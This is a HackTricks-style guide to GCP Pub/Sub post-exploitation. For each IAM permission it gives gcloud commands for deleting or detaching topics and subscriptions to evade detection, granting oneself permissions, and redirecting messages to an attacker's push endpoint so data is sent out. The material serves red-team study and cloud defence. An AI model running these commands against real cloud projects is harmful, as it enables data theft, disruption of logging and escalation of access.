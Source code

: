 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

For more information about Pub/Sub check the following page:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publish a message in a topic, useful to **send unexpected data** and trigger unexpected functionalities or exploit vulnerabilities:

```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```

### `pubsub.topics.detachSubscription`

Useful to prevent a subscription from receiving messages, maybe to avoid detection.

```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```

### `pubsub.topics.delete`

Useful to prevent a subscription from receiving messages, maybe to avoid detection.\
It's possible to delete a topic even with subscriptions attached to it.

```bash
gcloud pubsub topics delete <TOPIC NAME>
```

### `pubsub.topics.update`

Use this permission to update some setting of the topic to disrupt it, like `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Give yourself permission to perform any of the previous attacks.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Get all the messages in a web server:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Create a subscription and use it to **pull messages**:

```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```

### `pubsub.subscriptions.delete`

**Delete a subscription** could be useful to disrupt a log processing system or something similar:

```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```

### `pubsub.subscriptions.update`

Use this permission to update some setting so messages are stored in a place you can access (URL, Big Query table, Bucket) or just to disrupt it.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Give yourself the permissions needed to perform any of the previously commented attacks.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Attack a schema to a topic so the messages doesn't fulfil it and therefore the topic is disrupted.\
If there aren't any schemas you might need to create one.

{% code title="schema.json" %}
```json
{
    "namespace": "com.example",
    "type": "record",
    "name": "Person",
    "fields": [
        {
            "name": "name",
            "type": "string"
        },
        {
            "name": "age",
            "type": "int"
        }
    ]
}
```
{% endcode %}

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
    --schema=projects/<project-name>/schemas/<topic-id> \
    --message-encoding=json
```

### `pubsub.schemas.delete`

This might look like deleting a schema you will be able to send messages that doesn't fulfil with the schema. However, as the schema will be deleted no message will actually enter inside the topic. So this is **USELESS**:

```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```

### `pubsub.schemas.setIamPolicy`

Give yourself the permissions needed to perform any of the previously commented attacks.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

This is will create a snapshot of all the unACKed messages and put them back to the subscription. Not very useful for an attacker but here it's:

```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
    --subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
    --snapshot=YOUR_SNAPSHOT_NAME
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
